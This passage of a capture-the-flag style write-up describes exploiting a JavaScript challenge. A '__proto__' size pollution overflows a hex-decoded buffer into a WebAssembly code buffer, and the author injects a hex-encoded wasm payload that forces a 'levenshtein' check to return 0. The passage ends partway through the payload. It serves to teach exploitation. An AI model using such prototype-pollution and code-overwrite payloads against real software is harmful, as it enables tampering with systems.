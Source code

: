 There's a bunch of `0`'s in our code buffer. This only happened when i increased the size to this range, so I hypothesised that maybe, the data from the Uint8Array being created from the ``decode_user_hex_string`` was somehow "overflowing" into the code buffer for some reason, from the following code:
```javascript
const buf = new Uint8Array(Buffer.from("a".repeat(length)).buffer);
    for (let i = 0; i < length * 2; i += 2) {
        const byte = parseInt(str.substring(i, i + 2), 16);
        if (Number.isNaN(byte)) {
            buf[i >>> 1] = 0;
        }
        buf[i >>> 1] = byte;
    }
```
If my hypothesis was correct, then by modifying the "input" of the payload to be filled with a bunch of `1`'s instead, our code buffer would also be filled with a bunch of `1`'s
```javascript
data = "11".repeat(2000)
size = 1000
var src = `{
    "__proto__":{
        "size":${size}
    },
    "input":"${data}"
}`; 
```
And indeed it worked:
```javascript
<Buffer 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 ... 687 more bytes>
```
So we know we can write our own data into the ``code`` buffer by editting the ``input`` by some further testing, I figured out that it was only after a certain threshold where the data from my ``input`` would be written into the ``code`` buffer.

## Solving Process Pt 3 (Editting the WASM)
Since we can actively change what's in the code buffer, we can just change what the code does. Instead of making it do a leveinstein distance calculation, we can just make it always return 0, and the javascript will query our malicious function instead of the original, intended code.

I got ChatGPT to craft some `.wat` code to have a function called ``levenshtein`` which will always return 0. 
```javascript
(module
  (type $t0 (func (param i32 i32) (result i32)))
  (import "env" "memory" (memory $env.memory 0))
  (func $levenshtein (export "levenshtein") (type $t0) (param $p0 i32) (param $p1 i32) (result i32)
    ;; Immediately return 0
    (i32.const 0)
  )
  (export "memory" (memory $env.memory)))
```
I used an [online compiler](https://webassembly.github.io/wabt/demo/wat2wasm/) to convert from wat to wasm. Extract the binary data in hex form and try to pass it into the ``input`` of our payload. (You may need to adjust the number of bytes in front of your wasm until you get it running)
```javascript
data = "11".repeat(904)+"0061736d0100000001070160027f7f017f020f0103656e76066d656d6f7279020000030201000718020b6c6576656e73687465696e0000066d656d6f727902000a0601040041000b0038046e616d65010e01000b6c6576656e73687465696e020b010002000270300102703104050100027430060d01000a656e762e6d656d6f7279"
size = 3000
var src = `{
    "__proto__":{
        "size":${size}
    },
    "input":"${data}"
```